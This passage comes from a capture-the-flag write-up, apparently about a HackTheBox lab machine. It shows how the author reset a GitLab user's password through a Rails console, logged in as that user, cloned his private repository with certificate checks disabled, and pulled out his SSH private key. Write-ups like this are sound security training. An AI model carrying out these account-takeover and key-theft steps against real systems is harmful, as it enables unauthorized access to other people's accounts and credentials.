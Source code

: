 ```bash
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: 0f18c1b4-9929-47a5-90d7-ec16a7e6f293) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa424ee0668 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> 
```

After changed its password, I was able to login with his account and see other repositories in his shoes, where we found a **SecureDocker** private repo, which called a lot of attention.

![gitlab dexter projects](https://i.imgur.com/oXJEKFR.png){: .align-center}

Once we have access to the source code, downloaded its contents and found some interesting information used to build the container and a **SSH key** from dexter under his personal stuff, as mentioned in repo's description.

> CONFIDENTIAL - Secure docker configuration for homeserver. Also some personal stuff, I'll figure that out later.

After cloning it, we were able to see the following information:

```bash
$ git -c http.sslVerify=false clone http://git.laboratory.htb/dexter/securedocker.git  
Cloning into 'securedocker'...
Username for 'https://git.laboratory.htb': dexter
Password for 'https://dexter@git.laboratory.htb': 
warning: redirecting to https://git.laboratory.htb/dexter/securedocker.git/
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), done.
```

```bash
$ tree -a -I '.git'
.
├── create_gitlab.sh
├── dexter
│   ├── recipe.url
│   ├── .ssh
│   │   ├── authorized_keys
│   │   └── id_rsa
│   └── todo.txt
└── README.md

2 directories, 6 files
```

Validating the `id_rsa` file, noticed that it isn't a RSA key but `OpenSSH`, where we'll need to convert it before using. The procedure below allowed us to complete it easily:

- Remove the line break at the end of the file after `-----END OPENSSH PRIVATE KEY-----`.
